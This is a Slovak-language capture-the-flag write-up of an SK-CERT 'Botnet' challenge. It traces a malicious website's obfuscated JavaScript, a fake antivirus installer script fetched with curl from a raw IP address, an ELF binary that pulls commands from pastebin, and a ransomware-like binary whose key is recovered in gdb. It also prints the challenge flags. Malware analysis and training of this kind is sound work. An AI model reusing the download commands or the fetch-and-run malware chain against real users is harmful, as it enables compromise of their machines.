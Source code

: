 # SK-CERT - BOTNET
> Dostali sme hlásenie že na stránke ventilsro.github.io vyskakuje podozrivé okno. Mohli by ste to skontrolovať? <br/>
Reported Difficulty: 2

## 1 Záhadné okno
> Nietorý použivatelia nám občas nahlásia vyskakovacie okno v strede obrazovky, je potrebné túto aktivitu preveriť.

> Body: 3

Pozrieme sa na https://ventilsro.github.io/, zvyčajne prvý flag býva v page source, ale v tomto prípade nič tam nie je. Zaujímavé ale vyzerá ten javascript:

![](images/2022-03-05-14-24-18.png)

Pozrieme sa naň a máme prvý flag:

![](images/2022-03-05-14-24-31.png)

```
flag: SK-CERT{c4n_y0u_f1nd_17}
```

## 2 Takže pre toto!
> Keď už vieme ako funguje javascript, Musíme zistiť či náhodou neobsahuje niečo škodlivé.

> Body: 6

Ten java script vyzerá podozrivo, pravdepodobne bol použitý nejaký obfuscator, skúsime hľadať online, napríklad tento: http://www.addressmunger.com/javascript_obfuscator/index.php
Vložíme tam náš javascript, dva krát dáme decode a máme šťastie že, Arci-Zločan použil default obfuscator.

![](images/2022-03-05-14-27-58.png)

Je aj iná cesta, brute-force debug, lebo keby Arci-Zločan použil nejaký svoj obfuscator tak by sme nemali také šťastie. Na brute-force stačí použiť Chrome dev tools, dát tam nejaký break point a skúšať čo sa udeje:

![](images/2022-03-05-14-28-19.png)

Po niekoľkých pokusoch sme odhalili náš skutočný javascript:

![](images/2022-03-05-14-28-29.png)

Javascript: 
```
function process(text){document.getElementById("data_from_int").innerHTML=text}var ad=0;if(navigator.appVersion.indexOf("Linux")){ad=Math.floor(Math.random()*50+1)}else{ad=Math.floor(Math.random()*50+51)}fetch('https://int3.sk/reklama'+ad+'.txt').then(response=>response.text()).then(text=>process(text))
```

Síce žiadny tam flag nie je, ale z kódu vidíme, že sa reklama ťahá z `'https://int3.sk/reklama'+ad+'.txt'`, kde `ad` je náhodne číslo medzi `1` a `101`, tak skúsme...Zdá sa, že Arci-Zločan chce aby sme skúsili 100 rôznych adries či sa v niektorej neukrýva ďalší flag… skúsime našu vernú zbraň: `curl https://int3.sk/reklama[1-100].txt` a máme ďalší flag:

![](images/2022-03-05-14-31-18.png)

```
flag: SK-CERT{l3g17_4nt1v1ru5}
```

## 3 Antivirus 3000
> Reklama, a ponúka stiahnutie antivírusu? Podozrivé! Je potrebné zistiť čo reálne stahujeme.

> Body: 3

Z predchádzajúceho kroku vidíme, že reklama číslo 43 okrem flagu, ukrýva aj odkaz na nejaký shell script, tak sa poďme na to pozrieť: `curl http://194.182.66.53/antivirus3000_installer.sh` a máme hneď ďalší flag:  

![](images/2022-03-05-14-34-56.png)

```
flag: SK-CERT{1n574l_17_4lr34dy}
```

## 4 Elf
> Dostali sme ďalšie hlásenie že niekoľko použivatelov tejto stránky malo poškodený počítač, je potrebné vyšetrovať ďalej

> Body: 6

Z predchádzajúcej úlohy vidíme, že shell script niečo stiahne z `https://rentry.co/vpvqs/raw` a uloží to ako súbor `antivirus3000`. Sťahujeme ten súbor a zisťujeme, že je to štandardná Linuxová binárka. 
```
$ file antivirus3000 
antivirus3000: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b428836a750d2fd0a3bfccf09080250e5372b0fe, for GNU/Linux 3.2.0, not stripped
```
Po spustení binárky žiadny output ale cez Wireshark vidíme, že komunikuje s `pastebin.com`, tak pustime Burp a skúsime zachytiť tú požiadavku. 

![](images/2022-04-19-11-11-32.png)

*Keďže je to https komunikácia, museli sme pridať Burp certifikát do trusted root certificate store.*

Tu vidíme Request a Response:

![](images/2022-04-19-11-12-59.png)

Stiahneme si ten `runner.tar` a vidíme tam `flag.txt`.. ktorý ale nie je pre tuto úlohu, asi bude pre jednu z ďalších.

Púšťame sa do študovania forenznej analýzy `ELF`. `Strings` nám nezistil žiadny flag, jedine že je binárka používa `curl`, čo znamená, že asi otvára nejaké sieťové spojenie niekam.
Skúšame `strace -o trace.out ./antivirus3000` ani to nám nič nehovorí.

Ďalšie hodiny som strávil s debugovaním binárky, stepovaním inštrukcií cez gdb a Ghidra, aj keď v tom moc skúsenosti nemám.
Zaujal ma kód v ktorom sa generuje url pre curl: 
```
curl_easy_setopt(local_18,0x2712,local_268);
```

![](images/2022-04-19-14-24-14.png)

Snažil som sa nejak zistiť čo obsahuje `local_286` a po hodinách `ni`, `si`, `print $rdi` a podobných vecí, ktoré len tak-tak tuším čo znamenajú sa mi podarilo dostepovať pred call tej funkcie, kde som si pozrel obsah pamäte na `[RBP + -0x260]`

![](images/2022-04-19-14-29-03.png)

a zobrazením obsahu pamäte som získal známy string, ktorý bol akceptovaný!

![](images/2022-04-19-14-31-07.png)

```
flag: SK-CERT{p45t3b1n_15_hug3}
```

P.S. mohol som toto vyriešiť aj skôr, keby som si uvedomil, že 
```
5555555555a5 88 94 05        MOV        byte ptr [RBP + RAX*0x1 + -0x260],DL
             a0 fd ff ff

```
je to vlastne adresa pre `local_268[int(conter)]`, nie pre cely string `local_268`. Ja som sledoval obsah pamäti pomocou `x/s $rbp+$rax*0x1-0x260` a neuvedomil som si, že pozerám iba posledný byte:

```
 (gdb)x/s $rbp+$rax*0x1-0x260
0x7fffffffdcbb: "4"
 (gdb)x/s $rbp-0x260
0x7fffffffdc90: "https://pastebin.com/raw/9gQzJk4j#SK-CERT{p4"
```

## 5 Vykonané príkazy
> Zistili ste, že program spúšťa príkazy z pastebin. Teraz treba zistiť aké konkrétne.

> Body: 3

Tu som použil flag, ktorý som získal na začiatku predchádzajúcej úlohy, kde som odchytil komunikáciu s pastebin a stiahol `runner.tar`, ktorý obsahoval `flag.txt`

```
flag: SK-CERT{4n0th3r_f1lthy_3lf}
```

## 6 Ďalšia binárka
> Ďalší binárny súbor? Pustite sa do analýzy

> Body: 6

Po spustení `./runner` sa nič nedeje... niet divu. Otvárame `runner` v Ghidre a pozeráme `main` funkciu:

![](images/2022-04-19-16-07-10.png)

Podlá analýzy main, kód otvára aktuálny adresár, a ak sa tam nachádza adresár menom "dRIA2HpoQrC24jEoww4m" tak ho zašifruje. 
Vyskúšame vytvoriť adresár `dRIA2HpoQrC24jEoww4m` a spustiť `./runner`:

![](images/2022-04-19-16-18-31.png)

Takže, takto sa dostaneme ďalej do `encrypt_file` funkcie, ktorá podlá analýzy nerobí nič zaujímavé sama o sebe, otvára adresár, číta meno adresára a vola ďalšiu funkciu `encrypt`, ktorá už vyzerá zaujímavo, najmä `for` loop ktorý vyzerá podozrivo, ako z predošlých úloh kde sa generuje flag:

![](images/2022-04-19-16-27-23.png)

Skúšame krokovať cez `gdb`, nastavíme break point najprv na `main`, potom na `encrypt_file` a nakoniec sa dostaneme do `encrypt` a krokujeme do toho `for` loopu, a tento krát využijeme príkaz na vykonanie viac krokov naraz:

````
python [gdb.execute('ni') for x in range(12)]
````
Po niekoľkých opakovaní úspešne získavame ďalší flag:

![](images/2022-04-19-16-09-26.png)

```
flag: SK-CERT{th3_k3y}
```

## 7 Dekryptor
> Z analýzy sme zistili že sa jedná o ransomvér a klúč je pevne zakódovaný v zdrojovom kóde. Je potrebné napísať dekryptor a dekryptovať následovné súbory: https://drive.google.com/file/d/1Iv_Bl3yI8Pncd5iq3xaGdqnaScVwTO3Q/view?usp=sharing

> Body: 6

Tak toto už si netrúfam...možno nabudúce.

